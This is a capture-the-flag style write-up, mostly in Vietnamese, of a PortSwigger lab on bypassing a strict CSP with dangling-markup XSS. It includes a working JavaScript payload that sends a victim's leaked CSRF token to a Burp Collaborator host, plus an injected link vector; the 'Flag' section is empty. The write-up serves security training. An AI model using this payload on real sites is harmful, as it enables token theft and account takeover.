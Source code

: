 # Target Goal: 

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, first perform a cross-site scripting attack that bypasses the CSP and exfiltrates a simulated victim user's CSRF token using Burp Collaborator. You then need to change the simulated user's email address to hacker@evil-user.net.

You must label your vector with the word "Click" in order to induce the simulated user to click it. For example:

`<a href="">Click me</a>`

You can log in to your own account using the following credentials: `wiener:peter`

# Recon: 

Phần nhắm đến để tấn công sẽ là đổi email do đó từ mục nhập email, ta có thể inject vào và thử xem có thể thoát ra dc k

![image](https://github.com/vanniichan/Portswigger/assets/112863484/018f0ae1-3160-408f-b92f-9d18642a52f3)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c7e5527d-0cfd-4ce2-949d-532b1bce17b9)

Sau khi inject vào cta thấy được k thể xem được nội dung của link. Lý do như tiêu đề của bài lab. Nó đã được CSP bảo vệ

![image](https://github.com/vanniichan/Portswigger/assets/112863484/78aa0fb3-1ed8-4f6d-b540-3368f72dcb5e)

Vậy thì bypass CSP kiểu gì? Vì nó đã chặn xem nội dung của trang ngoài nên chúng ta k thể tiến hành tấn công tự động mà bắt buộc phải cần tương tác 
`<a href="https://google.com/dnkas">Click me</a>`

![image](https://github.com/vanniichan/Portswigger/assets/112863484/4b13d7cc-2a9b-4ea2-8bef-11576f981fdc)

Tiếp theo để lấy được nội dung, rằng ở đây chúng ta cần đó chính là csrf token thậm chí là nhiều hơn thế. Sử dụng [tag base target](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base)

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b4183055-b526-4f76-8d30-2921ff10a8f7)

Lý do k đóng " là bởi khi không đóng. Trình duyệt sẽ hiểu rằng nội dung của nó sẽ chưa kết thúc và sẽ tìm đến phần kết thúc khác ( ở đâu có thể hiểu được là phần đóng tag ở dưới). Đây chính là tấn công "dangling markup"

![image](https://github.com/vanniichan/Portswigger/assets/112863484/2a9056c8-15b3-4c81-ab1f-785a64d38042)

Từ trên ta có payload sau: Nếu chưa có thông tin gì (window.name) thì ta sẽ dùng `else` mục đích giải thích ở trên. Sau đó khi đã có thông tin nó sẽ gửi về request của `Burp collabor`

```
<script>
if(window.name) {
		new Image().src='//wqqef7ejd38jegvd09sykz0ujlpcd21r.oastify.com?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://0ae2000b04d9e4b480f02bf300bb00dd.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a4800bf0403e41f80932a5001200097.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

Sau khi lấy được csrf từ victim ta tiến hành thay đổi email. Tuy nhiên respond sẽ báo rằng invalid csrf token lý do là thực ra mình còn thiếu session của victim




# Flag: 

